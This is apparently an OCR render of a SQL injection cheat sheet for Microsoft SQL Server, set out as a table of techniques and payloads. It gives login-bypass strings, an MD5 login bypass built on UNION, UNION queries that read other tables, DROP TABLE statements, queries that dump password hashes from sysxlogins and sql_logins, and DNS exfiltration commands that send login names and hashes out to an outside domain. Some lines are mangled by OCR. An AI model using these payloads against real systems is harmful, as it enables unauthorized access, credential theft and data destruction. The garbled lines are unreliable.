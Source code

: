 Make DNS Requests | declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’);
. | - These commands are used to make DNS request.
. | declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’);
. | - These commands are used to make DNS request.
. | - NB: Concatenation is not allowed in calls to these SPs, hence you have to use @host.
Bypassing Login Screens | .
SQL Injection, Login tricks | .
. | admin' --
. | admin' #
. | admin'/*
. | ' or 1=1—
. | ' or 1=1#
. | ' o r 1=1/*
. | ') or '1'='1—
. | ') or ('1'='1--
Bypassing second MD5 hash check login screens | If application is first getting the record by username and then compare returned MD5 with supplied password's MD5 then you need to some extra tricks to fool application to bypass authentication. You can union results with a known password and MD5 hash of supplied password. In this case application will compare your password and your supplied MD5 hash instead of MD5 from database.
. | Username : admin
. | Password : 1234 ' AND 1=0 UNION ALL SELECT 'admin',
. | '81dc9bdb52d04dc20036dbd8313ed055
. | 81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)
Union Injections | SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members
. | - With union you can do SQL queries cross-table. Basically you
can poison query to return records from another table. This
above example will combine results from both news table and
members table and return all of them.
Another Example: | ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
log in as admin user | .
. | DROP sampletable;--
. | DROP sampletable;#
. | Username: admin'--
. | SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'
. | - Using this command, you can log in as admin user.
List Passwords | SELECT name, password FROM master..sysxlogins;
. | - This command obtains the columns ‘name’ and ‘password’ from the table ‘master..sysxlogins’. It works only in MSSQL 2000.
. | SELECT name, password_hash FROM master.sys.sql_logins;
. | - This command obtains the columns ‘name’ and ‘password_hash’ from the table ‘master.sys.sql_logins’. It works only in MSSQL 2005.
List Password Hashes | SELECT name, password FROM master..sysxlogins
. | - this command obtains the columns ‘name’ and ‘password’
. | from the table ‘master..sysxlogins’.
. | - priv, mssql 2000.
. | SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins
. | - This command obtains the columns ‘name’ and ‘master.dbo.fn_varbintohexstr(password)’ from the table ‘master..sysxlogins’.
. | - priv, mssql 2000, Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.
. | SELECT name, password_hash FROM master.sys.sql_logins
. | - This command obtains the columns ‘name’ and ‘password_hash’ from the table ‘master.sys.sql_logins’.
. | - priv, mssql 2005.
. | SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
. | - this command obtains the columns ‘name + ‘-’ + master.sys.fn_varbintohexstr(password_hash)’ from the table ‘master.sys.sql_logins’.
. | - priv, mssql 2005.